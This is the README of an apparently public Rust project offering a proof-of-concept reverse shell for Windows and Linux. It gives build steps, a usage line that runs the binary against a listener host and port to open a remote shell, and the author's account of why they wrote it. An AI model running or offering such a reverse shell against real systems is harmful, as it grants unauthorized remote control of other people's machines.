 # Reverse shell
A basic proof of concept reverse shell for Windows and Linux in Rust.

## Usage

Compile the code with
```
cargo build --release
```
The executable will be in `/target/release`. Just run it with your listener host and port as arguments.
```
./reverse-shell.exe [host] [port]
```

## Why

After some advanced research, I still didn't find a working reverse shell for Windows online in Rust. I found a very simple one for Linux, but it uses files descriptors and so it is completely unusable on Windows, and my primary goal was the Windows support. The only available repository that contains a reverse shell in Rust that is supposed to work for Windows does not compile (and after taking a look at the errors, I wonder how it could have compiled one day). So, I did my best to make one myself, but I found myself struggling ***a lot** with Rust's sockets and subprocess interactions. This reverse shell is far from perfect, but at least **it works**.